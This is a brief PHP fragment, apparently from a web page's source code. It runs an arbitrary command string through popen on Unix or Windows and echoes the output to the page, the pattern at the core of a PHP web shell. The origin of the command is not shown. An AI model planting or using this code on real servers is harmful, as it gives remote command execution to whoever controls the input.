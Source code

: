 ```php
	if (DIRECTORY_SEPARATOR == '/')
	{
		$p = popen('exec 2>&1; ' . $cmd, 'r');
	}
	else
	{
		$p = popen('cmd /C "' . $cmd . '" 2>&1', 'r');
	}
	while (! feof($p))
	{
		echo htmlspecialchars(fread($p, 4096), ENT_QUOTES);
		@ flush();
	}
}
echo "</pre>";

exit;
?>
```